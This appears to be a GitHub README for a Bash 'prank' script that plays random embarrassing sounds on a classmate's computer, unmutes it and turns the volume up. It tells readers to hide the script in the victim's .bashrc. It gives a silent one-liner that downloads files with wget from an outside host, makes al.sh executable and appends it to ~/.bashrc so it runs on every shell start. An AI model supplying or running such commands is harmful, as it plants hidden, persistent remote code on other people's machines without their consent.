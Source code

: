 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
```bash
    ./al.sh & disown $!
```
Hide in their bashrc
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```

Do everything via: mkdir
```bash
    **~/.config/al >/dev/null 2>&1; cd ~/.config/al; wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc**
```
